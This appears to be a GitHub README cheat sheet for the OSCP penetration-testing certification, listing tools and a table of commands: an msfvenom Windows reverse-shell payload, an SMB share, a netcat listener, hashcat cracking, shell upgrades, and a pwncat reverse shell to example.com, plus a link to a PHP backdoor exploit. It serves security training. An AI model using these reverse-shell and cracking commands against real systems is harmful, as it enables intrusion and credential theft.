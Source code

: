 # Offensive Security Certified Professional
## OSCP Tools and Resources for Your Journey


##### Nmap Automator. Save time on port/vuln scans:
https://github.com/21y4d/nmapAutomator

##### PWNCAT - Unbreakable Persistent Reverse Shell
https://github.com/cytopia/pwncat



Category | Command Examples
------------ | -------------
MSFVENOM | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.221 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
SMB | python3 smbserver.py lab "~/OSCP/EXPLOITS/MS17-010/CLISHARE"
NETCAT | nc -nvlp 443   *(Creates a local listener)*
CRACKING | hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 
SHELL | Resolve "TERM environment variable not set":  *$ *export TERM=xterm**
SHELL | Fully interactive shell (Python): *$ python3 -c 'import pty; pty.spawn("/bin/bash")'*
SHELL | PWNCAT Ex. *$ pwncat -e '/bin/bash' example.com 4444*

## Exploits
PHP 8.1.0-dev Backdoor RCE
https://github.com/flast101/php-8.1.0-dev-backdoor-rce
